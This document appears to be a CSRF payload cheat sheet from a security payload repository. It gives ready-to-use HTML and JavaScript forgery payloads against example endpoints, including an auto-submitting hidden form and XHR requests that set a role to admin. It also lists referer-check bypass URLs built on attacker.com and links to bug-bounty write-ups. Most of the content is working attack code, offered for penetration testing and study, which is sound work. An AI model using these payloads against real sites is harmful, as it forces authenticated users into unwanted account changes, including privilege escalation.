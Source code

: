 # Cross-Site Request Forgery

> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP


## Summary

* [Methodology](#methodology)
* [Payloads](#payloads)
    * [HTML GET - Requiring User Interaction](#html-get---requiring-user-interaction)
    * [HTML GET - No User Interaction)](#html-get---no-user-interaction)
    * [HTML POST - Requiring User Interaction](#html-post---requiring-user-interaction)
    * [HTML POST - AutoSubmit - No User Interaction](#html-post---autosubmit---no-user-interaction)
    * [JSON GET - Simple Request](#json-get---simple-request)
    * [JSON POST - Simple Request](#json-post---simple-request)
    * [JSON POST - Complex Request](#json-post---complex-request)
* [Bypass referer header validation check](#bypass-referer-header-validation)
    * [Basic payload](#basic-payload)
    * [With question mark payload](#with-question-mark-payload)
    * [With semicolon payload](#with-semicolon-payload)
    * [With subdomain payload](#with-subdomain-payload)
* [References](#references)

## Tools

* [XSRFProbe - The Prime Cross Site Request Forgery Audit and Exploitation Toolkit.](https://github.com/0xInfection/XSRFProbe)

## Methodology

![CSRF_cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CSRF%20Injection/Images/CSRF-CheatSheet.png?raw=true)

## Payloads

When you are logged in to a certain site, you typically have a session. The identifier of that session is stored in a cookie in your browser, and is sent with every request to that site. Even if some other site triggers a request, the cookie is sent along with the request and the request is handled as if the logged in user performed it.

### HTML GET - Requiring User Interaction

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```

### HTML GET - No User Interaction

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```

### HTML POST - Requiring User Interaction

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```

### HTML POST - AutoSubmit - No User Interaction

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```


### JSON GET - Simple Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

### JSON POST - Simple Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```

### JSON POST - Complex Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## Bypass referer header validation

### Basic payload
```
1) Open https://attacker.com/csrf.html
2) Referer header is ..

Referer: https://attacker.com/csrf.html
```
### With question mark(`?`) payload
```
1) Open https://attacker.com/csrf.html?trusted.domain.com
2) Referer header is ..

Referer: https://attacker.com/csrf.html?trusted.domain.com
```

### With semicolon(`;`) payload
```
1) Open https://attacker.com/csrf.html;trusted.domain.com
2) Referer header is ..

Referer: https://attacker.com/csrf.html;trusted.domain.com
```

### With subdomain payload
```
1) Open https://trusted.domain.com.attacker.com/csrf.html
2) Referer headers is ..

Referer: https://trusted.domain.com.attacker.com/csrf.html
```

## References

- [Cross-Site Request Forgery Cheat Sheet - Alex Lauerman - April 3rd, 2016](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
- [Cross-Site Request Forgery (CSRF) - OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
- [Messenger.com CSRF that show you the steps when you check for CSRF - Jack Whitton](https://whitton.io/articles/messenger-site-wide-csrf/) 
- [Paypal bug bounty: Updating the Paypal.me profile picture without consent (CSRF attack) - Florian Courtial](https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
- [Hacking PayPal Accounts with one click (Patched) - Yasser Ali](http://yasserali.com/hacking-paypal-accounts-with-one-click/)
- [Add tweet to collection CSRF - vijay kumar](https://hackerone.com/reports/100820)
- [Facebookmarketingdevelopers.com: Proxies, CSRF Quandry and API Fun - phwd](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
- [How i Hacked your Beats account ? Apple Bug Bounty - @aaditya_purani](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
- [FORM POST JSON: JSON CSRF on POST Heartbeats API - Dr.Jones](https://hackerone.com/reports/245346)
- [Hacking Facebook accounts using CSRF in Oculus-Facebook integration](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
- [Cross site request forgery (CSRF) - Sjoerd Langkemper - Jan 9, 2019](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
- [Cross-Site Request Forgery Attack - PwnFunction](https://www.youtube.com/watch?v=eWEgUcHPle0)
- [Wiping Out CSRF - Joe Rozner - Oct 17, 2017](https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)
- [Bypass referer check logic for CSRF](https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/)
